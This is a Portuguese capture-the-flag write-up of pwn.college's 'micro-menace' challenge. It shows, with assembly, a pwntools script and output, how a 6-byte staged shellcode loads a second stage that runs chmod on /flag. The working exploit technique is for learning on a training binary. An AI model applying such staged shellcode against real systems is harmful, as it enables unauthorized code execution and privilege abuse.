






# pwn.college — Micro Menace (Shellcode Writing)
### Program Security · Shellcode Writing · 6-Byte Shellcode Constraint

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing  
> **Técnicas:** Multi-stage shellcode · Stage-1 read bootstrap · Register state inspection via GDB · `push`/`pop` register transfer to avoid REX.W · NOP padding for RIP alignment · `chmod` privilege escalation via shellcode · Stack-based string construction

---

## Descrição do Desafio

O desafio `micro-menace` limita o shellcode a apenas **6 bytes** — o binário lê apenas `0x6` bytes da `stdin` e os executa diretamente. O objetivo continua sendo ler o `/flag`.

---

## Reconhecimento Inicial — Por que a abordagem anterior não funciona

O ponto de partida foi o shellcode do desafio anterior ([byte-budget](byte-budget.md)), adaptado para usar um symlink em vez do caminho absoluto. Mesmo após otimizações, o menor shellcode obtido foi o `shellcode4` com **12 bytes** — o dobro do limite:



```asm
_start:
    push 0x66
    push rsp
    pop rdi
    push 90
    pop rax
    push 0x07
    pop rsi
    #mov si, 0x1ff
    syscall
```

Comprimir ainda mais essa lógica de `chmod` em 6 bytes é inviável — apenas configurar `rdi`, `rax` e `rsi` já consumiria mais do que isso. Era hora de mudar completamente de abordagem.

---

## A Nova Estratégia: Multi-Stage Shellcode

A solução foi um **staged shellcode**: em vez de tentar fazer o `chmod` em 6 bytes, o stage1 serve apenas para **ler um shellcode maior da stdin e armazená-lo na memória**, para que seja executado em seguida. O stage2 — sem restrição de tamanho — realiza o `chmod` normalmente.

```
Stage 1 (6 bytes): read(0, buf, N) → lê o stage2 do stdin e o escreve na memória
Stage 2 (sem limite): chmod("/flag", 0777) → altera as permissões do /flag
```

O binário só controla a **primeira** leitura (6 bytes). A partir do momento que o stage1 está executando, o `rip` é controlado exclusivamente pelo shellcode — não há "retorno ao fluxo normal do programa". Quando o stage1 chama um novo `read`, o kernel lê do stdin sem o limite de 6 bytes imposto pelo binário.

---

## Construindo o Stage1 — Inspecionando os Registradores com GDB

Para implementar `read(0, rip, N)` em apenas 6 bytes, não é possível configurar todos os registradores explicitamente (`rax`, `rdi`, `rsi`, `rdx`) — isso consumiria muito mais do que 6 bytes. A ideia foi **aproveitar os valores já presentes nos registradores** no momento da execução e ajustar apenas o necessário.

Para descobrir esses valores, adicionei um `int3` antes do `syscall` no stage1 — isso pausa a execução no GDB antes da syscall, permitindo inspecionar os registradores:

```asm
# stage1 temporário para inspeção
_start:
    int3
    xor edi, edi
    syscall
```

Com o exploit rodando pelo GDB:

```python
p = gdb.debug("/challenge/micro-menace")
p.send(sh1)
p.send(sh2)
p.interactive()
```

O GDB pausou antes do `syscall` e inspecionei os registradores:



```
rax = 0x0              → syscall read ✅ (já correto)
rdi = 0x0              → stdin ✅ (já correto)
rsi = 0x770c8ea25723   → endereço aleatório ❌ (precisa apontar para o shellcode)
rdx = 0x18fa4000       → limite de bytes a ler ✅ (grande o suficiente)
```

Conclusão:

- **`rax`** já está em 0 — `read` ✅
- **`rdi`** já está em 0 — stdin ✅, mas o `xor edi, edi` garante isso explicitamente
- **`rdx`** já está grande o suficiente — não precisa mexer ✅
- **`rsi`** precisa apontar para o endereço do shellcode — é o único registrador a corrigir ❌

### O cenário interessante com `rdx`

O valor de `rdx` era exatamente `0x18fa4000` — o mesmo endereço onde o shellcode foi mapeado pelo binário. Ou seja, o endereço de destino para o `read` já estava em `rdx`! Bastava transferi-lo para `rsi`.

A instrução mais óbvia seria `mov rsi, rdx` — mas ela gera 3 bytes com o prefixo REX.W (`48 89 d6`). Usando `push rdx` + `pop rsi`, a mesma operação custa apenas **2 bytes** (`52 5e`), sem REX.W.

---

## Stage1 Final — 6 Bytes Exatos



```asm
.global _start
.intel_syntax noprefix
_start:
    xor edi, edi    # rdi = 0 (stdin) — 2 bytes
    push rdx        # empurra 0x18fa4000 na stack — 1 byte
    pop rsi         # rsi = 0x18fa4000 (endereço do shellcode) — 1 byte
    syscall         # read(0, 0x18fa4000, rdx) — 2 bytes
```

Total: **6 bytes exatos** ✅

O `read` escreverá o stage2 a partir de `0x18fa4000`, sobrescrevendo o próprio stage1 na memória.

---

## O Problema do RIP — NOP Padding

Após o `syscall` do stage1 retornar, o `rip` estará em `0x18fa4006` — 6 bytes após o início do shellcode, pois o stage1 ocupa exatamente 6 bytes. Isso significa que os **primeiros 6 bytes** escritos pelo `read` já terão sido "pulados" pelo `rip`.

Se o stage2 fosse enviado diretamente, seus primeiros 6 bytes seriam ignorados — o `rip` cairia no meio do stage2, corrompendo a execução.

A solução foi prefixar o stage2 com **6 NOPs** no exploit. Assim:

- Os 6 NOPs ocupam as posições `0x18fa4000` a `0x18fa4005` — que o `rip` já passou
- O stage2 começa em `0x18fa4006` — exatamente onde o `rip` está após o `syscall` do stage1

```
Memória após o read:
0x18fa4000: 90 90 90 90 90 90   ← 6 NOPs (rip já passou aqui)
0x18fa4006: [stage2 começa aqui] ← rip cai aqui
```

---

## Stage2 — O chmod

O stage2 é o mesmo shellcode de chmod usado no desafio anterior ([byte-budget](byte-budget.md)), usando o caminho absoluto `/flag`:



```asm
.global _start
.intel_syntax noprefix
_start:
    lea rdi, [rip + flag]   # rdi aponta para "/flag"
    push 90
    pop rax                 # rax = 90 (chmod)
    xor esi, esi
    mov si, 0x1ff           # rsi = 0o777
    syscall                 # chmod("/flag", 0777)
flag:
    .string "/flag"
```

---

## O Exploit Final



```python
from pwn import *
context.arch = "amd64"
context.terminal = ["tmux", "splitw", "-h"]

sh1 = open("/home/hacker/stage1.raw", "rb").read()
sh2 = open("/home/hacker/stage2.raw", "rb").read()

p = process("/challenge/micro-menace")
p.send(sh1)
p.send(b"\x90" * 6 + sh2)
p.interactive()
```

Compilando os shellcodes:

```bash
gcc -nostdlib -static stage1.s -o stage1.elf
objcopy --dump-section .text=stage1.raw stage1.elf

gcc -nostdlib -static stage2.s -o stage2.elf
objcopy --dump-section .text=stage2.raw stage2.elf
```

Executando:

```bash
python3 exploit.py
```



```
-rwxrwxrwx 1 root root 58 Apr 29 23:39 /flag
pwn.college{UmSnLB0oeF7AGeFnn9TIHsP3RtR.dBzMywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. shellcode4 (12 bytes) → menor shellcode de chmod obtido, ainda 2x acima do limite
2. Nova abordagem: staged shellcode — stage1 lê stage2, stage2 faz chmod
3. GDB com int3 → inspeciona registradores antes do syscall do stage1
4. rax=0, rdi=0, rdx=0x18fa4000 já corretos → apenas rsi precisa ser ajustado
5. rdx contém exatamente o endereço do shellcode → push rdx + pop rsi (2 bytes)
6. stage1 = xor edi + push rdx + pop rsi + syscall = 6 bytes exatos
7. 6 NOPs prefixam o stage2 para alinhar com o rip após o syscall do stage1
8. stage2 executa chmod("/flag", 0777) → cat /flag → flag obtida
```

---

## Comparação de Abordagens

| Abordagem | Bytes | Resultado |
|---|---|---|
| shellcode4 (chmod direto) | 12 | ❌ Acima do limite de 6 bytes |
| Stage1 com todos os registradores setados | >6 | ❌ Impossível em 6 bytes |
| Stage1 aproveitando estado dos registradores | 6 | ✅ Exato |
| Stage2 sem NOP padding | — | ❌ RIP cai no meio do stage2 |
| Stage2 com 6 NOPs de padding | — | ✅ RIP alinhado corretamente |
